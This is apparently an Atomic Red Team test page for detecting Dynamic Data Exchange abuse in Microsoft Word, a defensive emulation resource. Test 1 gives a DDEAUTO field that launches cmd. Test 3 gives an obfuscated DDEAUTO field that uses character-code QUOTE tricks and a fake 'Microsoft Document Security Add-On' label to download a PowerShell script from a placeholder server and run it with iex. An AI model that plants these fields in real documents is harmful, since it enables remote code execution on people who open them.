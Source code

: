 ```yaml
---
tags: [T1559_002, atomic_test]
filename: "[[T1559.002|T1559.002 - Inter-Process Communication: Dynamic Data Exchange]]"
---
```

# T1559.002 - Inter-Process Communication: Dynamic Data Exchange

## Atomic Test #1 - Execute Commands
Executes commands via DDE using Microsfot Word

**Supported Platforms:** Windows


**auto_generated_guid:** f592ba2a-e9e8-4d62-a459-ef63abd819fd





#### Run it with these steps! 
Open Microsoft Word

Insert tab -> Quick Parts -> Field

Choose = (Formula) and click ok.

After that, you should see a Field inserted in the document with an error "!Unexpected End of Formula", right-click the Field, and choose Toggle Field Codes.

The Field Code should now be displayed, change it to Contain the following:

{DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"  }







<br/>
<br/>

## Atomic Test #2 - Execute PowerShell script via Word DDE
When the word document opens it will prompt the user to click ok on a dialogue box, then attempt to run PowerShell with DDEAUTO to download and execute a powershell script

**Supported Platforms:** Windows


**auto_generated_guid:** 47c21fb6-085e-4b0d-b4d2-26d72c3830b3






#### Attack Commands: Run with `command_prompt`! 


```cmd
start "$PathToAtomicsFolder\T1559.002\bin\DDE_Document.docx"
```






<br/>
<br/>

## Atomic Test #3 - DDEAUTO
TrustedSec - Unicorn - https://github.com/trustedsec/unicorn

SensePost DDEAUTO - https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/

Word VBA Macro

[Dragon's Tail](https://github.com/redcanaryco/atomic-red-team/tree/master/ARTifacts/Adversary/Dragons_Tail)

**Supported Platforms:** Windows


**auto_generated_guid:** cf91174c-4e74-414e-bec0-8d60a104d181





#### Run it with these steps! 
1. Open Word

2. Insert tab -> Quick Parts -> Field

3. Choose = (Formula) and click ok.

4. Once the field is inserted, you should now see "!Unexpected End of Formula"

5. Right-click the Field, choose "Toggle Field Codes"

6. Paste in the code from Unicorn or SensePost

7. Save the Word document.

9. DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"

10. DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord\\..\\..\\..\\..\\windows\\system32\\{ QUOTE 87 105 110 100 111 119 115 80 111 119 101 114 83 104 101 108 108 }\\v1.0\\{ QUOTE 112 111 119 101 114 115 104 101 108 108 46 101 120 101 } -w 1 -nop { QUOTE 105 101 120 }(New-Object System.Net.WebClient).DownloadString('http://<server>/download.ps1'); # " "Microsoft Document Security Add-On"







<br/>
